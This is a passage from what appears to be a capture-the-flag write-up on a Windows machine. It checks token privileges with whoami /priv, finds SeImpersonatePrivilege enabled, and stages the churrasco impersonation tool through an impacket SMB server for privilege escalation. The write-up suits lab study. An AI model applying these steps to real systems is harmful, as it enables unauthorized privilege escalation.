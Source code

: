 ```bash
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a
```

I could not find an exploit for these CVEs. So I remembered that in the box granny I used a tool called churrasco (which is like an automated juicy potato). So I check if this works here as well:

```bash
C:\Documents and Settings>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

The system seems vulnerable (SeImpersonatePrivilege), so I start an SMB server to transfer the file:

```bash
┌──(user㉿KaliVM)-[/tools/Churrasco]
└─$ ll
total 352
-rw-r--r-- 1 user user  10364 Aug 17 09:09 Churrasco.cpp
-rw-r--r-- 1 user user  31232 Aug 17 09:09 churrasco.exe
-rw-r--r-- 1 user user  52224 Aug 17 09:09 Churrasco.ncb
-rw-r--r-- 1 user user    907 Aug 17 09:09 Churrasco.sln
-rw-r--r-- 1 user user   9216 Aug 17 09:09 Churrasco.suo
-rw-r--r-- 1 user user   3921 Aug 17 09:09 Churrasco.vcproj
-rw-r--r-- 1 user user  16744 Aug 17 09:09 Churrasco.zip
-rw-r--r-- 1 user user     43 Aug 17 09:09 README.md
-rw-r--r-- 1 user user   1316 Aug 17 09:09 ReadMe.txt
-rw-r--r-- 1 user user    296 Aug 17 09:09 stdafx.cpp
-rw-r--r-- 1 user user    501 Aug 17 09:09 stdafx.h
 
┌──(user㉿KaliVM)-[/tools/Churrasco]
└─$ sudo impacket-smbserver kali .
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

